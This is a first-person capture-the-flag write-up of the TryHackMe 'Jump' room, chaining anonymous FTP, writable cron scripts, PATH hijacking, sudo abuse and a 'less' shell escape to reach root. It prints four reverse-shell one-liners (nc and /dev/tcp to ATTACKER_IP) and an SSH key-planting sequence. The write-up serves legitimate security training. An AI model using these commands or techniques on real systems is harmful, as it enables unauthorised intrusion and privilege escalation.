# Jump

**Difficulty:** 🟢 Easy · **Room:** [TryHackMe ↗](https://tryhackme.com/room/jump)

You’ve discovered a misconfigured internal automation pipeline running on a Linux server. The system processes recon scripts, development backups, monitoring jobs, and deployment tasks across multiple users. Each stage of the pipeline relies too heavily on the previous one. By abusing these trust boundaries, you must move laterally through the system.

Your objective is to escalate from anonymous access all the way through:

`anonymous access → recon_user → dev_user → monitor_user → ops_user → root`

---
## Reconnaissance

An `nmap` scan turned up two open ports:



Port 21 was open with FTP running, so I tried logging in anonymously — and it worked straight away:



Browsing the FTP server, I found a file called `README.txt`:

```text
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

So anything dropped into `incoming/` gets picked up automatically. Since I already had write access to that folder over FTP, I uploaded a reverse shell script with `put` and got a callback — along with the `recon_user` flag:



Reverse shell used:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

## Escalation to `dev_user`

With a shell as `recon_user`, I pulled down `pspy64` to watch what was running in the background. Two processes kept popping up on a schedule:

```
2026/08/16 06:23:01 CMD: UID=1002  PID=3151   | /bin/bash /opt/dev/backup.sh 
2026/08/16 07:21:58 CMD: UID=1003  PID=2546   | /bin/bash /usr/local/bin/healthcheck 
```

`healthcheck` ran as `monitor_user`, and `backup.sh` ran as `dev_user`. I headed to `/opt/dev` and had a look at `backup.sh`:

```bash
#!/bin/bash
tar -czf /tmp/recon_backup.tgz /home/recon_user
```



Turns out anyone in the `dev_user` group could edit this script — and `recon_user` happened to be in that group. So I overwrote `backup.sh` with a reverse shell payload, waited for the next scheduled run, and caught a shell as `dev_user`:



Reverse shell used:

```bash
/bin/bash -i >& /dev/tcp/ATTACKER_IP/8888 0>&1
```

## Escalation to `monitor_user`

Now as `dev_user`, I went back to look at that `healthcheck` process I'd spotted earlier:

```bash
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```

I also noticed a `ps` binary sitting in `/opt/dev/bin`, owned by `dev_user`. Since `healthcheck` calls `ps` without giving a full path, there was a good chance it would pick up `/opt/dev/bin/ps` before the real one, depending on how its `PATH` was set. I checked `/etc/systemd/system` for a `healthcheck.service` unit to confirm, and sure enough — it was searching `/opt/dev/bin` first:



So I dropped a reverse shell into `/opt/dev/bin/ps`, made it executable, and waited. The next time `healthcheck` ran, it executed my fake `ps` instead of the real one, giving me a shell as `monitor_user`:



Reverse shell used:

```bash
/bin/bash -i 5<> /dev/tcp/ATTACKER_IP/9001 0<&5 1>&5 2>&5
```

## Escalation to `ops_user`

Next, I searched for anything owned by `ops_user`:

```bash
find / -user ops_user 2>/dev/null
/opt/app
/usr/local/bin/deploy.sh
/home/ops_user
```

A quick `sudo -l` showed I could run `/deploy.sh` as `ops_user`:



Looking inside `deploy.sh`, it turned out to just call another script, `deploy_helper.sh`:

```bash
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```

I found `deploy_helper.sh` sitting in `/opt/app` — and it was owned by `monitor_user`, the account I'd just gotten into. That meant I could overwrite it with a reverse shell, run `deploy.sh` via `sudo`, and have my payload execute as `ops_user`. Sure enough, that's exactly what happened:



Reverse shell used:

```bash
/bin/bash -i 5<> /dev/tcp/ATTACKER_IP/9000 0<&5 1>&5 2>&5
```

## Escalation to root

### First way — Reading the flag directly

Running `sudo -l` as `ops_user` showed I could run `less` as root — which alone was enough to open `/root/flag.txt` and grab the final flag:



That gets the flag, but it doesn't actually give root. Normally you can break out of `less` into a shell with `!`, but that didn't work over my reverse shell since it wasn't a proper interactive TTY. To actually get a root shell out of this, I needed to come in over SSH instead.

### Second way — Escalating via SSH and `less`

From the `ops_user` reverse shell, I set up an `.ssh` directory with the right permissions:

```bash
mkdir .ssh
chmod 600 .ssh
```

On my own machine, I generated a fresh SSH key pair:

```bash
ssh-keygen -t ed25519 -f key
```

I copied the public key from `key.pub` and dropped it into `.ssh/authorized_keys` on the target, again setting the correct permissions:

```bash
chmod 600 authorized_keys
```

With that in place, I could SSH in directly as `ops_user`:

```bash
ssh -i key ops_user@MACHINE_IP
```

This time I had a proper interactive shell, so `less` behaved as expected:

```bash
sudo less flag.txt
```

From inside `less`, typing `!` followed by `/bin/bash` dropped me into a root shell:



---

## Kill Chain

The whole thing kicked off with **anonymous FTP access**, which was enough to upload a malicious script and land a foothold as `recon_user`.

From there, it was a matter of walking up through one trust boundary after another:

`Anonymous FTP → recon_user → dev_user → monitor_user → ops_user → root`

- **Initial Access:** Anonymous FTP upload → reverse shell as `recon_user`
- **Privilege Escalation:** Abused a group-writable backup script → `dev_user`
- **Privilege Escalation:** PATH hijacking via `healthcheck` → `monitor_user`
- **Privilege Escalation:** Abused `sudo` rights plus a writable deployment helper script → `ops_user`
- **Final Escalation:** SSH access combined with `sudo less` → root shell

At its core, this box came down to **loose permissions, unsafe automation, and too much implicit trust between users and services** — every one of those weak links chained together to take it from anonymous FTP all the way to root.

> Thanks for reading!